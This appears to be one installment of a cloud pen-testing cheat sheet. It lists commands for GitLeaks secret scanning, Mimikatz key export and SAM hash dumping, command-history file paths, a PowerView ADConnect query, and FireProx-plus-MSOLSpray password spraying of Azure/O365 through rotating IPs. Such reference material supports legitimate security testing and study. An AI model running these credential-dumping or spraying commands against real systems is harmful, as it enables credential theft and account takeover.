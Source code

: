 # Cloud Pen-testing Part -6

````markdown
## GitLeaks

Search repositories for secrets

https://github.com/zricethezav/gitleaks

Pull GitLeaks with Docker

```shell
sudo docker pull zricethezav/gitleaks
````

Print the help menu

```shell
sudo docker run --rm --name=gitleaks zricethezav/gitleaks --help
```

Use GitLeaks to search for secrets

```shell
sudo docker run --rm --name=gitleaks zricethezav/gitleaks -v -r <repo URL>
```

### Mimikatz

Export Non-Exportable Private Keys From Web Server

```plaintext
mimikatz# crypto::capi
mimikatz# privilege::debug
mimikatz# crypto::cng
mimikatz# crypto::certificates /systemstore:local_machine /store:my /export
```

Dump password hashes from SAM/SYSTEM files

```plaintext
mimikatz# lsadump::sam /system:SYSTEM /sam:SAM
```

Check Command History

Linux Bash History Location

```plaintext
~/.bash_history
```

Windows PowerShell PSReadLine Location

```plaintext
%USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### PowerView

https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon

Find on-prem ADConnect account name and server

```shell
Get-NetUser -Filter "(samAccountName=MSOL_*)" | Select-Object name,description | fl
```

### FireProx

Password Spraying Azure/O365 while randomizing IPs with FireProx

Install

```shell
git clone https://github.com/ustayready/fireprox
cd fireprox
virtualenv -p python3 .
source bin/activate
pip install -r requirements.txt
python fire.py
```

Launch FireProx

```shell
python fire.py --access_key <access_key_id> --secret_access_key <secret_access_key> --region <region> --url https://login.microsoft.com --command create
```

Password spray using FireProx + MSOLSpray

```shell
Invoke-MSOLSpray -UserList .\userlist.txt -Password Spring2020 -URL https://apigateway-endpoint-id.execute-api.us-east-1.amazonaws.com/fireprox
```

### ip2Provider

Check a list of IP addresses against cloud provider IP space

https://github.com/oldrho/ip2provider

### Vulnerable Infrastructure Creation

Cloudgoat - https://github.com/RhinoSecurityLabs/cloudgoat

SadCloud - https://github.com/nccgroup/sadcloud

Flaws Cloud - http://flaws.cloud

Thunder CTF - http://thunder-ctf.cloud

```markdown
References and Resources
This is a list of references and resources that I leveraged to create the cheatsheets, but it is not comprehensive.
Huge thanks to all the cloud pentesting blog/book authors & open-source developers!

Rhino Security Labs @RhinoSecurity - Blog - Rhino Security Labs
Matt Burrough @mattburrough - Pentesting Azure Applications | No Starch Press
NCC Group @NCCGroupInfoSec - NCC Group Plc · GitHub
Sean Metcalf @PyroTek3 & Trimarc - AD Security
Karl Fosaaen @kfosaaen & NETSPI - NetSPI Blog
Ryan Hausknecht @haus3c & SpectorOps - Posts By SpecterOps Team Members
Steve Borosh @424f424f - rvrsh3ll Blog
Dirk-jan Mollema @_dirkjan - dirkjanm.io
Mike Felch @ustayready - ustayready (ustayready) · GitHub
Zachary Rice (@zricethezav) - zricethezav (Zachary Rice) · GitHub
Adam Chester @xpn - XPN InfoSec Blog
Chris Moberly @init_string & Gitlab - GitLab Security Department · GitLab
Lee Kagan @invokethreatguy & Lares - Blog | Resources | Lares Consulting, LLC
Oddvar Moe @Oddvarmoe & TrustedSec - Cybersecurity Education from the Experts | TrustedSec Blog Posts
```

`Please note that the above information is provided for reference purposes. Make sure to review and use these tools responsibly and ethically within the boundaries of applicable laws and regulations.`
